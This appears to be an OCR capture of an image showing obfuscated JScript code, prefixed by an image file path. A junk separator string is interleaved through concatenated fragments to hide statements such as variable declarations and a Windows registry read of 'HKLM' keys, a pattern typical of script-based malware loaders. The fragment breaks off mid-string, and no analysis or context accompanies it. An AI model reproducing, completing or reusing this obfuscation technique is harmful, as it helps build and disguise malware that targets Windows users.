 ```javascript
'RVsYtUhiOu'+
'BNMecoDlnXPECXGJpWSFwRVsYtUhiOuBNMecoDlnXPECcGJpWSFwR'+
'VsYtUhiOuBNMecoDlnXPECGGJpWSFwRVsYtUhiOuBNMecoDlnXPECLGJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpWSFwRVsYtUhiOuBNMecoDlnXPEC =GJpWSFwRVsYtUhiOuBNMecoDlnXPEC ""GJpWSFwRVsYtUhiOuBNMecoDlnXPEC;GJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPEC vGJpWSFwRVsYtUhiOuBNMecoDlnXPECaGJpWSFwRVsY'+
'tUhiOuBNMecoDlnXPECrGJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPEC GJpWSFwRVsYtUhiOuBNMecoDlnXPECnIGJpWSFwRVsYtUhiOuB'+
'NMecoDlnXPECcSGghGJpWSFwRVsYtUhiOuB'+
'NMeco'+
'DlnXPECHGJpWSFwRVsYtUhiOuBNMecoDlnXPECvGJpWSFwRVsYtUhiOuBNMecoDlnXPECoGJpWSFwRVsYtUhiOuBNMecoDlnXPECEGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECYGJpWSFwRVsYtUhiOuBNMecoDlnXPECdGJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPECMDGJp'+
'WSFwRVs'+
'YtU'+
'hiOuBNMecoDln'+
'XPEC GJpWSFwRVsY'+
'tUhi'+
'OuBNMecoDlnXPEC=GJp'+
'WSFwRVsYtUhiOuBNMecoDlnXPEC GJpWSFwRVsYtUhiOuBNMecoDlnXPECpGJpWSFwRVsYtUhiOuBNMec'+
'oD'+
'lnXPECFMGJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPECIGJpWSFwRVsYtUhiOuBNMecoDlnXPEChGJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPECUGJpWSFwRVsY'+
'tUhiOu'+
'BNMecoDlnXPECoGJpWSFwRVsYtUhiOuBNMecoDlnXPECwzGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECiGJpWS'+
'F'+
'wRVsYtUhiOuBNMe'+
'coDlnXPECAGJpWSFw'+
'RVsYtUhiOuBNMecoDlnXP'+
'ECrGJpW'+
'SFwR'+
'VsYtUhiOuBNMe'+
'coDlnXPECRGJpWSFwRVsYtUhiOuBNMecoDlnXP'+
'ECEGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CXGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXP'+
'ECLcGJpWSFwRVsYtUhiOuBNMecoDlnXPECaGJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXPECu(xaGJpWSFwRVsYtUhiOuBNMecoDlnXPECLG'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECFGJpWSFwRVsYtUhiOuBNMecoDlnXPECNGJpWSFwRVsYtUhiOuB'+
'NMecoDlnXPECQGJpWSFwRVsYtUhiOuBNMecoDlnXPECbGJpWSFwR'+
'VsYtUhiOuBNMecoDlnXP'+
'EChGJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXPECkGJpWSFw'+
'RVsYtUhiOuBNMecoDlnXPECeTAGJpWSFwRVsYtUhiOuBNMecoDlnXPECsvGJpWSFwRVsYtUhiOuBNMecoDlnXPEC'+
'oGJpWSFwRVsYtUhiOuBNMecoDlnXPECSGJpWSFwRVsYtUhiOuBNMecoDlnXPEC.RGJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpWSFwRVsYtUhiOuBNMe'+
'coDlnXPECgGJpWSFwRVsYtUhiOuBNMecoDlnXPECReaGJpWSFwRVsYtUhiOuBNMecoDlnXPECd(GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"HGJpWSFwRVsYtUhiOuBNMecoDlnXPECKGJpW'+
'SFwRV'+
'sYtUhiOuBNMecoDlnXPECLGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECM"+GJpWSFwRVsYtUhiOuBNMecoDlnXPECTbGGJpWSFwRVsYtUhiOuBNMecoDlnXPECEGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPECHGJpWSFwR'+
'VsYtUhiOuBN'+
'MecoDlnXPECCGJpWSFwRVsYtUhiOuBNMecoDlnXPECtKGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECwIhGJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPECYaMGJpWS'+
'FwRVsYtUhiOuBNMec'+
'oDlnXPECQ(92GJpWSFwRVsYtUhiOuBNMecoDlnXPEC)+GJpWS'+
'Fw'+
'RVsY'+
```